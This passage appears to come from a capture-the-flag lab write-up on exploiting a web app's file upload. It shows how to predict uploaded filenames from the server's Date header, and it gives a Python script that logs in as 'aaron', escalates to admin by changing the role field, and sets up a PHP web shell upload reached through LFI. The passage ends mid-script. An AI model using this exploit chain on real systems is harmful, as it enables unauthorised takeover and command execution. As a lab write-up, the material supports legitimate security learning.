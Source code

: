 
We can get the exact time when `upload.php` get executed from http response header `date` and convert it to epoch format and then generate MD5 hash with it.

* but if the `uniqid()` function implemented properly then this could be a pain to brute force the file name on the server because http date header does not go beyond seconds and than we have to guess that microsecond value.

```py
import requests as r
from dateutil import parser
import calendar

rspn = r.post("http://10.10.11.135/login.php")
print('[+] Server time: ', rspn.headers['date'])
dt = parser.parse(rspn.headers['date'])
time_epoch = calendar.timegm(dt.utctimetuple())
print('[+] epoch timestamp: ', time_epoch)
```
```bash
❯ python getepoch.py
[+] Server time:  Tue, 21 Dec 2021 11:39:19 GMT
[+] epoch timestamp:  1640086759
```

Now, we only need to upload a jpg file and generate file name like this `MD5('$file_hash' + time()) + '_' + somefile.jpg` and request it from uploaded direcotry `images/uploads/` with LFI. For doing everything i create a python script.
```py
import re
import calendar
import hashlib
import traceback
import requests as r
import json
from dateutil import parser
import tempfile
import argparse

s = r.session()
# s.proxies = {"http": "http://127.0.0.1:8080"}
url = "http://10.10.11.135"
arguparser = argparse.ArgumentParser(description='Run without any argument to uplaod a simple php web shell and request it with curl HTTP-POST request.')
arguparser.add_argument("--cmd", help="Direct comamnd execute. Default is php web shell.")
arguparser.add_argument("--file", help="Upload file form your filesystem. Default is simple php script with system function.")
arguparser.add_argument('-T', action='store_true', help="Enable traceback")
args = arguparser.parse_args()


def becomeAdmin():
    login_data = {"user": "aaron", "password": "aaron"}
    login_rspn = s.post(f"{url}/login.php?login=true", allow_redirects=True, data=login_data)
    check_login = re.findall(r'<h1 class="text-center" style="padding: 200px">(.*?)</h1>', login_rspn.text)[0]
    print("[+]", check_login)

    role_data = {"firstName": "test", "lastName": "test", "email": "test", "company": "test", "role": "1"}
    role_rspn = s.post(f"{url}/profile_update.php", data=role_data)
    print("[+] user role changed to: ", json.loads(role_rspn.text)["role"])


def uploadFile(cmd=None):
    becomeAdmin()
```